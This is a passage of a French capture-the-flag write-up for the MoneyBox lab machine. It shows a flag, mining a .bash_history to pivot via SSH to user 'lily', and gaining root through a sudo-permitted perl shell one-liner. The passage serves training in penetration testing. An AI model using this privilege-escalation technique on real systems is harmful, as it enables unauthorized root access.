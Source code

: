 ```console
You Got it User1 Flag

 ==> us3r1{F14g:0ku74tbd3777y4}
```

Dans l'historique, on voit qu'il utilise sa clé SSH pour accèder au compte `lily`. Ce dernier existe sur le système :

```console
renu@MoneyBox:~$ cat .bash_history
cler
ls
--- snip ---
ssh-keygen -t rsa
clear
cd .ssh
ls
ssh-copy-id lily@192.168.43.80
clear
cd
cd -
ls -l
chmod 400 id_rsa
ls -l
ssh -i id_rsa lily@192.168.43.80
--- snip ---
renu@MoneyBox:~$ id lily
uid=1000(lily) gid=1000(lily) groups=1000(lily),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
renu@MoneyBox:~$ ssh lily@127.0.0.1
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:8GzSoXjLv35yJ7cQf1EE0rFBb9kLK/K1hAjzK/IXk8I.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '127.0.0.1' (ECDSA) to the list of known hosts.
Linux MoneyBox 4.19.0-14-amd64 #1 SMP Debian 4.19.171-2 (2021-01-30) x86_64

Last login: Fri Feb 26 09:07:47 2021 from 192.168.43.80
lily@MoneyBox:~$ sudo -l
Matching Defaults entries for lily on MoneyBox:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lily may run the following commands on MoneyBox:
    (ALL : ALL) NOPASSWD: /usr/bin/perl
```

Pour la finale, on est sur de la classique exécution par sudo :

```console
lily@MoneyBox:~$ sudo perl -e 'exec "/bin/sh";'
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
# ls -al
total 28
drwx------  3 root root 4096 Feb 26  2021 .
drwxr-xr-x 18 root root 4096 Feb 25  2021 ..
-rw-------  1 root root 2097 Feb 26  2021 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root 4096 Feb 25  2021 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root  228 Feb 26  2021 .root.txt
# cat .root.txt

```